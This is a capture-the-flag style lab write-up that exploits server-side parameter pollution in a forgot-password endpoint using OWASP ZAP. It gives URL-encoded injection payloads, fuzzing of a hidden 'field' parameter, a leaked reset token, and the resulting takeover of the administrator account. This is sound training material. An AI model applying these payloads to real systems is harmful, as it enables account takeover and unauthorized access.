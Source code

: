 # Lab: Exploiting server-side parameter pollution in a query string [OWASP Zed Attack Proxy]

In ZAP browser open the lab, navigate to _My account_, click _Forgot password_, enter `administrator` in the input field and click submit.

In ZAP interface, bottom pane, notice a `POST` request with an endpoint `/forgot-password`. Right-click on it and __Open/Resent with Request Editor...__. Resend the request to make sure the response is consistent. 

Change the value of the `username` parameter to the non-existent `administratorx` and send the request.

_Response Body:_
```
{
  "type":"ClientError",
  "code":400,
  "error":"Invalid username."
}
```

Attempt to add a second parameter-value pair to the server-side request using a URL-encoded `&` character, as follows: `username=administrator%26x=y` and send.

_Response Body:_
```
{
  "error": "Parameter is not supported."
}
```

This suggests that the internal API interpreted `&x=y` as a separate parameter and not part of the username.

Let's try to truncate the sever-side query using URL-encoded `#` character, as follows: `username=administrator%23` and send.

_Response Body:_
```
{
  "error": "Field not specified."
}
```

This suggests that the server-side query includes an additional parameter named `field` which has been removed by the `#` character we introduced. Let's add a `field` parameter with an invalid value to the request. Truncate the query string after the added parameter-value pair, as follows: `username=administrator%26field=x%23` and send.

_Response Body:_
```
{
  "type":"ClientError",
  "code":400,
  "error":"Invalid field."
}
```

This suggests that the server-side application may recognize the injected field parameter. Let's brute-force the value of the `field` parameter using ZAP Fuzzer. 

- In the list of requests on the bottom pane, right-click the `POST` request with `/forgot-password` endpoint and go to __Attack__ > __Fuzz__.
- Click _Edit_ and add `%26field=x%23` at the end of the request body and click _Save_. Select `x` and click _Add_ under _Fuzz locations_. 
- Download the following payload [file](https://raw.githubusercontent.com/antichown/burp-payloads/refs/heads/master/Server-side%20variable%20names.pay).
- In the new window under _Payloads_ click _Add_ and choose _File_ in the dropdown. Select the file downloaded in the previous step and click _Add_.
- Start the fuzzer and look for `200` under column _Code_.

![ZAP Fuzzer Attack](psa_apitesting_ss03.png "ZAP Fuzzer Attack")

Back to the __History__ tab, right click the `POST` request with endpoint `/forgot-password` again and click __Open/Resend with Request Editor...__ 

Change parameter 'field' value from `x` to `email` as follows: `&username=administrator%26field=email%23` and send the request.

_Response Body:_
```
{
  "result":"*****@normal-user.net",
  "type":"email"
}
```
This indicates that `email` is a valid field type. Now let's go to __History__ tab again and find a `GET` request with an endpoint `/static/js/forgotPassword.js` and inspect this file in browser. Right-click it and find __Open URL in Browser__ > __Firefox__. Notice that, there is a password reset endpoint, which refers to the `reset_token` parameter:

```javascript
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

The entire endpoint looks like this: `/forgot-password?reset_token=${resetToken}`. Let's go to the __History__ tab once again and open `POST /forgot-password` request in the __Requester__ Tab by Right-clicking it and choosing __Open in Requester Tab__ and in the response body change the value of `field` parameter from `email` to `reset_token` as follows: `username=administrator%26field=reset_token%23` and send the request.

_Response Body:_
```
{
  "result":"0v9irltq0ge55686mgejpg9sio3x98qz",
  "type":"reset_token"
}
```

Now in the ZAP browser enter the password reset endpoint `/forgot-password` and add `?reset_token=0v9irltq0ge55686mgejpg9sio3x98qz` and hit Enter. Set a new password and login as `administrator` user using new password.

Go to __Admin panel__ and delete `carlos` to solve the lab.

> Return to the [original write-up](README.md)
